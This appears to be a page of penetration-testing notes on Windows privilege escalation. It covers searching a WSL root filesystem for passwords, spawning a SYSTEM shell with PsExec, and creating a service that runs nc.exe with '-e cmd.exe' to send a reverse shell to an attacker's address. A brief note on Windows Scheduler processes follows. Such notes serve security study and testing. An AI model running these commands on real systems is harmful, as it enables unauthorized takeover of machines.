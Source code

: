 ```
C:\Users\User\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\
```

Inside the Linux filesystem as root, you can search for passwords or some other interesting things.

# From Administrator to System



As it is known the maximum privilege account of windows systems is `NT AUTHORITY\SYSTEM` , so we need to spawn a shell with that account.

Once our user is already on `Administrators` group, we can check it with different forms:

```
net user admin
net sessions   #only can execute local administrators
```

There are different forms to spawn a system shell:

## With PsExec.exe

With psexec we can spawn a new shell with system.

```powershell
./PsExec.exe /s /i /accepteula powershell.exe
```
![PsExec](/hackingnotes/images/psexec.png)

> **Note**: It spawn a new shell

## With a new Service

```
sc create <service_name> binpath= "C:\Users\User\nc.exe <ip-addr> <port> -e cmd.exe" type= own type= interact
```

After starting our new service we will get the System shell on our handler:

```
sc start <service_name>
```

# Windows Scheduler

Similar to crontab, Windows Scheduler is a component of _Microsoft Windows_ that provides the ability to _schedule_ the launch of programs or scripts at pre-defined times.

If you found some of this running proceses `tasklist`, maybe you need to take a look:

```
WScheduler.exe
WService.exe
# Some other binary that starts with WS (WindowsScheduler)
```
